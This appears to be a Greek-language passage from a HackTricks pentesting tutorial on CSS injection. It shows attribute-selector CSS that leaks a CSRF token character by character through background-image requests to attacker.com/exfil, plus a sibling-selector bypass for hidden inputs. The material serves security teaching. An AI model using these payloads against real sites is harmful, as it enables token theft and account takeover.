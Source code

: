 # CSS Injection

{{#include ../../../banners/hacktricks-training.md}}

## CSS Injection

### Επιλογέας Χαρακτηριστικού

Οι επιλεγείς CSS είναι σχεδιασμένοι να ταιριάζουν με τις τιμές των χαρακτηριστικών `name` και `value` ενός στοιχείου `input`. Εάν η τιμή του χαρακτηριστικού του στοιχείου εισόδου αρχίζει με έναν συγκεκριμένο χαρακτήρα, φορτώνεται ένας προκαθορισμένος εξωτερικός πόρος:
```css
input[name="csrf"][value^="a"] {
background-image: url(https://attacker.com/exfil/a);
}
input[name="csrf"][value^="b"] {
background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name="csrf"][value^="9"] {
background-image: url(https://attacker.com/exfil/9);
}
```
Ωστόσο, αυτή η προσέγγιση αντιμετωπίζει έναν περιορισμό όταν ασχολείται με κρυφά στοιχεία εισόδου (`type="hidden"`) επειδή τα κρυφά στοιχεία δεν φορτώνουν φόντα.

#### Παράκαμψη για Κρυφά Στοιχεία

Για να παρακάμψετε αυτόν τον περιορισμό, μπορείτε να στοχεύσετε ένα επόμενο αδελφό στοιχείο χρησιμοποιώντας τον γενικό συνδυαστή αδελφών `~`. Ο κανόνας CSS στη συνέχεια εφαρμόζεται σε όλα τα αδέλφια που ακολουθούν το κρυφό στοιχείο εισόδου, προκαλώντας τη φόρτωση της εικόνας φόντου:
```css
input[name="csrf"][value^="csrF"] ~ * {
background-image: url(https://attacker.com/exfil/csrF);
}
```
Ένα πρακτικό παράδειγμα εκμετάλλευσης αυτής της τεχνικής περιγράφεται στο παρεχόμενο απόσπασμα κώδικα. Μπορείτε να το δείτε [εδώ](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e).

#### Προαπαιτούμενα για CSS Injection

Για να είναι αποτελεσματική η τεχνική CSS Injection, πρέπει να πληρούνται ορισμένες προϋποθέσεις:

1. **Μήκος Payload**: Ο φορέας CSS injection πρέπει να υποστηρίζει επαρκώς μεγάλα payloads για να φιλοξενήσει τους κατασκευασμένους επιλεγείς.
2. **Επαναξιολόγηση CSS**: Πρέπει να έχετε τη δυνατότητα να πλαισιώσετε τη σελίδα, κάτι που είναι απαραίτητο για να ενεργοποιηθεί η επαναξιολόγηση του CSS με νέα παραγόμενα payloads.
3. **Εξωτερικοί Πόροι**: Η τεχνική υποθέτει τη δυνατότητα χρήσης εξωτερικά φιλοξενούμενων εικόνων. Αυτό μπορεί να περιορίζεται από την Πολιτική Ασφαλείας Περιεχομένου (CSP) της ιστοσελίδας.

### Blind Attribute Selector
